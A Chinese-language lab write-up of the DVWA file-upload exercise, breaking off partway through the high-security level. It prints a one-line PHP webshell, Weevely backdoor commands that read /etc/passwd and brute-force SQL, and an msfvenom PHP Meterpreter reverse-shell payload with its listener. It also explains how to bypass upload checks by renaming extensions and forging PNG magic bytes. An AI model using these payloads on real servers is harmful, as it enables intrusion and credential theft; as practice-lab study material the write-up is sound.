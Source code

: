 # File Upload 
文件上傳漏洞
如果對上傳檔案的類型、內容沒有進行嚴格過濾，會使攻擊者通過上傳WEBSHELL取得伺服器權限
因此檔案上傳漏洞的危害非常嚴重

## Low 
未經任何過濾、檢查
![alt text](image.png)

直接手打一個php來上傳，呼叫cmd指令
```php
    <?php  system($_REQUEST["cmd"]); ?>
```
上傳成功後，前端回饋路徑名稱
../../hackable/uploads/test.php succesfully uploaded!
你只需要造訪這個路徑名稱，後面加上cmd指令即可取得伺服器資訊
```
    http://127.0.0.1/dvwa/hackable/uploads/test.php?cmd=ls
```
![alt text](image-1.png)


## 額外

### 滲透測試工具－Weevely (這個別用)

Weevely是一個開源的Python工具，用於進行網站的測試和測試安全性。它主要用於進行網站漏洞測試和測試，可以用於網站測試的各個階段，包括鑒定、發現、測試和應對潛在的安全問題。

kali 本身有內建

* generate 生成後門
```
    weevely generate test123 weevely.php 
```
![alt text](image-3.png)

你就可以把建立好的php上傳到上面中，並訪問
進行後門連接

```
   weevely http://127.0.0.1/dvwa/hackable/uploads/weevely.php test123
```

![alt text](image-4.png)

就可以使用後門程式如
:fild_download 下載遠端的程式或是圖片
查看系統訊息
```
    uname -a # 查看系統訊息
    net_ifconfig # 查看IP
    audit_etcpasswd -h # 查看password 
    audit_etcpasswd -real # 查看password  ，並獲得真實用戶訊息
    bruteforce_sql -h  #暴力破解
    sql_console -u #　連接數據庫
```

### 滲透測試工具 Msfvenom 
生成自帶backdoor 的軟體

列出php 相關所有指令
```
    msfvenom -l  payloads | grep php 
```
使用php/meterpreter/reverse_tcp 生成php程式，並上傳

```
    msfvenom -p php/meterpreter/reverse_tcp tcp lhost=127.0.0.1 lport=4444 -f raw > exploit.php
```

啟動msfconsole，use exploit/multi/handler 


```
    msfconsole 
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set lhost 127.0.0.1
    run

```
重新訪問到該url 
../../hackable/uploads/exploit.php

就會發現介面發生了變化
![alt text](image-5.png)

```
    sysinfo # 取得系統資訊
```

## Medium 

後端追加檢查了檔案類型
透過副檔名操作，Burpsuite 攔截來使php檔案可以上傳
將原本的test.php 附檔名改成png 
上傳後再burpsuite 改成php，即可繞過判定

## HIGH
除了檢查type外，後端使用了getimagesize(string filename)，會讀取圖片header、圖片長寬的資訊
格式不對就報錯
如果你自行把php更改成jpg(使用CP)，上傳仍會被阻擋

方法：更改file 前面格式

先到
https://en.wikipedia.org/wiki/List_of_file_signatures
看圖片格式，可以得知PNG擋的前面規則是

89 50 4E 47 0D 0A 1A 0A 

![alt text](image-6.png)

使用hexeditor 更改exploit.php格式
(先在前面按8個空白鍵)

```
    hexeditor exploit.php
```
改前八個字的格式，讓他假冒成png

![alt text](image-7.png)

使用cp指令去竄改格式




上傳用burpsuite 攔截
filename變成如下：
開啟msfconfig 




